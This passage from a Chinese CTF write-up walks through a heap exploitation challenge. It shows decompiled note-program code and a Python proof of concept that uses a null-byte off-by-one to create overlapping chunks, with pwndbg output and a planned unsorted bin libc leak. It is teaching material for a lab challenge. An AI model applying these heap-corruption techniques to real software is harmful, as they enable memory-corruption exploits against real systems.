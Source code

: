 由于这题的出题人用0xda填充整个chunk，所以我们不能直接伪造pre_size来overlapping 

```c
void delete()
{
  unsigned __int64 idx; // [rsp+8h] [rbp-8h]

  printf("Index:");
  idx = input();
  if ( idx > 9 )
    exit(-3);
  if ( note[idx] )
  {
    memset(note[idx], 0xDA, note_size[idx]);
    free(note[idx]);
    note[idx] = 0LL;
    note_size[idx] = 0LL;
  }
  puts(":)");
}
```

但我们刚刚才验证的null byte off-by-one溢出的字节为\x00，所以我们可以通过反复的利用这个把pre_size位清0来构造overlapping 

```python
#poc
new(0x10,'aaaa')
new(0x110,'aaaa')
free(0)
for i in range(8):
    new(0x10-i,'a'*(0x10-i))
    free(0)
raw_input()
```

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x560894f1f000      0x0                 0x20                 Freed 0x61616161616161610x6161616161616161
0x560894f1f020      0x130               0x100                Freed         0x61616161               0x0
Corrupt ?! (size == 0) (0x560894f1f120)
pwndbg> x/8x 0x560894f1f000
0x560894f1f000:	0x0000000000000000	0x0000000000000021
0x560894f1f010:	0x6161616161616161	0x6161616161616161
0x560894f1f020:	0x0000000000000130	0x0000000000000100
0x560894f1f030:	0x0000000061616161	0x0000000000000000
```

接着我们需要libc_base来方便后面的操作，我们可以看到在new中对size的检验范围十分大，这时我们可以通过unsort_bin_attack来泄露一个紧贴libc的地址 ，之后我们可以通过调试得到这个地址与libc_base的偏移，就相当与泄露出了libc_base

```c
printf("Size:");
  size = input();
  if ( size > 0x2000 )
    exit(-2);
  note_chunk = malloc(size);
```

